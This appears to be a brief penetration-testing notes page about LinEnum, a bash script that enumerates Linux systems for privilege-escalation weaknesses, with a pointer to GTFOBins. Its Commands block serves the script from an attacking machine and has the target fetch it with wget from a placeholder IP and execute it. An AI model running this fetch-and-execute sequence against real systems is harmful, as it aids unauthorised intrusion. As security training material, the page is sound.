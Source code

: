
## General

LinEnum is a bash script designed to automate the process of searching for known vulnerabilities and misconfigurations on a Linux system. It can be used as a standalone tool or as part of a larger process to assess the security of a system. LinEnum performs a number of checks, including:

-   Enumerating the kernel and system information
-   Searching for files with potentially dangerous permissions
-   Checking for any installed software that is known to have vulnerabilities
-   Checking for misconfigurations that may allow an attacker to gain unauthorized access


## Commands

```
# Attacking Machine
python3 -m http.server

# Target Machine
wget http://IP/Name.sh
chmod +x NAME.sh
./NAME.sh
```

 '---> GTFOBins Might be useful from the results https://gtfobins.github.io/


## LinEnum

**All Information** --->  [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)

<iframe src="https://github.com/rebootuser/LinEnum
" width="100%" height="1300"></iframe>